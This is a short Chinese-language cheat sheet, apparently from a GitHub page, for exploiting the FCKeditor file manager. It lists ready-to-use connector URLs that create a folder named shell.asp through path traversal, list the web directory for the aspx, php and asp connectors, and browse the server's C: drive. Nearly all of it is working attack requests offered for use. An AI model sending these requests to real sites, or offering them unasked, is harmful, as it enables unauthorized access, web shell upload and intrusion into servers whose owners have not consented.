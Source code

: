 1、FCKeditor/editor/fckeditor.html
==================================

FCKeditor/editor/fckeditor.html不可以上传文件，可以点击上传图片按钮再选择浏览服务器即可跳转至可上传文件页，可以查看已经上传的文件。

2、根据xml返回信息查看网站目录
==============================

    http://www.-sec.org/fckeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp

3、获取当前文件夹
=================

    FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
    FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
    FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/

4、游览c盘
==========

    /FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=c:/
